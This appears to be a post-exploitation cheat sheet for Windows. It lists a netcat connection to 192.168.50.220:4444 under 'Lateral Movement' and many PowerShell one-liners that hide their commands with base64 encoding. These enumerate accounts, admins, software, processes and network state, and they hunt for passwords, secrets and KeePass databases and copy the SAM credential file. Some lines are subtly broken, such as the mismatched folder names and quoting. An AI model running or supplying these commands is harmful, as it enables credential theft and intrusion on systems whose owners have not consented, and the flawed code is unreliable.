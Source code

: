 ## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Current-User.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami /groups'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-User-Groups.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalUser'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-Users.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq "Local" } | Select-Object Name'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-Admins.txt"`

## Get Installed Applications:

### 32 Bit:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\32BitPrograms.txt"`

### 64 Bit:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\64BitPrograms.txt"`

## Local System Enumeration

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Recurse -File -ErrorAction SilentlyContinue | Select-String -Pattern "password|secret" -SimpleMatch'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Find-Secrets.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-Process'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Get-Process.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Get-KeyPass-DBs.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Find-SAM-DB.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination '.\Q4-Campaign\SAM-Copy'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'systeminfo'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\SystemInfo.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'ipconfig /all'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\IpConfig.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'route print'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\RoutePrint.txt"`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'netstat -ano'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\NetStat.txt"`
